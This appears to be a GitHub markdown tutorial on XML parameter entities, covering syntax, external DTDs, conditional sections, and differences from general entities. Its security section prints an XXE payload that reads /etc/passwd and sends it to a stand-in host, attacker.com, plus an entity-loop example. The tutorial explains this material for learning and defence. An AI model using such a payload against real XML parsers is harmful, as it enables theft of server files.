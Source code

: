 # XXE Indepth


Parameter entities in XML are used within DTDs (Document Type Definitions) and are different from general entities, which are used in the XML content itself. Parameter entities are primarily used for defining reusable content or DTD fragments and help in structuring DTDs in a modular way.


## What Are Parameter Entities?

Parameter entities are declared with a % character, followed by the entity name, and are used in DTDs (not in the XML document body).
They are typically employed to include reusable DTD fragments or configuration within the DTD.
To reference a parameter entity, you need to use %entityName; inside the DTD.

### Syntax for Declaring Parameter Entities


<!ENTITY % entityName "replacement text or value">

%entityName; will be replaced with "replacement text or value" wherever it is referenced in the DTD.

#### Examples of Parameter Entities

##### 1. Basic Parameter Entity Usage

<!DOCTYPE root [
   <!ENTITY % greeting "Hello, World!">
   <!ELEMENT root (#PCDATA)>
]>
<root>%greeting;</root>

In this example:
The DTD defines a parameter entity named greeting with the value "Hello, World!".
However, this example is incorrect in practice because %greeting; cannot be used directly in the XML document content.

To use the parameter entity, you need to declare an additional general entity:

<!DOCTYPE root [
   <!ENTITY % greeting "Hello, World!">
   <!ENTITY myGreeting "%greeting;">
   <!ELEMENT root (#PCDATA)>
]>
<root>&myGreeting;</root>

Here, myGreeting is a general entity that uses the value of the parameter entity %greeting.

##### 2. Including an External DTD Using Parameter Entities
You can use parameter entities to include external DTDs, making the DTD modular and easier to maintain.


##### External DTD (common.dtd):

<!ENTITY % commonElements "<!ELEMENT greeting (#PCDATA)>">

##### Main XML File:

<!DOCTYPE root [
   <!ENTITY % common SYSTEM "http://example.com/common.dtd">
   %common;
   %commonElements;
]>
<root>
   <greeting>Hello from an external DTD!</greeting>
</root>

In this example:
The parameter entity %common references an external DTD file located at http://example.com/common.dtd.
%commonElements; is used to insert the content from the external DTD (in this case, an element declaration).


##### 3. Conditional DTD Sections Using Parameter Entities
Parameter entities can be used to include or exclude parts of a DTD based on conditional sections.

<!DOCTYPE root [
   <!ENTITY % includeGreeting "INCLUDE">
   <![%includeGreeting;[
      <!ELEMENT greeting (#PCDATA)>
   ]]>
   <!ELEMENT root (greeting)>
]>
<root>
   <greeting>Conditional Greeting Example</greeting>
</root>

In this example:
The %includeGreeting parameter entity determines whether the greeting element is included.
The conditional section <![%includeGreeting;[ ... ]]> is included because %includeGreeting is set to "INCLUDE".

##Security Implications of Parameter Entities

1. #### XML External Entity (XXE) Attacks 

Parameter entities can be used to reference external files or resources, leading to XXE vulnerabilities if the XML parser is not configured securely

<!DOCTYPE root [
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com/?data=%file;'>">
   %eval;
]>
<root>&exfil;</root>
In this XXE example, an external file (/etc/passwd) is accessed and sent to an attacker's server.

2. #### Entity Reference Loops
   Defining parameter entities that reference each other in a circular manner can cause infinite loops:

<!ENTITY % loop "%loop;">
This will trigger a "detected an entity reference loop" error in most XML parsers.

## Differences Between Parameter Entities and General Entities

|        Feature               |            Parameter Entities                            |    General Entities
|------------------------------|:---------------------------------------------------------|--------------------------------------------------------------:
|  Declared with               |         % (e.g., <!ENTITY % name "value">)               |           None (e.g., <!ENTITY name "value">)
|  Usage Scope                 |                Within DTDs only                          |             In XML document content
|  Syntax for Reference        |                %name;                                    |         &name;
|  Typical Use Cases           |         Including DTD fragments,conditional DTD sections |             Embedding content in XML 
|  Security Considerations     |         Can lead to XXE or loops if misconfigured        |                Rarely used for file access


Summary
Parameter entities are a powerful feature in XML DTDs that help in reusing and modularizing DTD content. However, they must be used with caution due to the security risks associated with external entities and potential loops. Proper configuration of XML parsers and secure handling of DTDs is crucial to avoid XXE vulnerabilities.
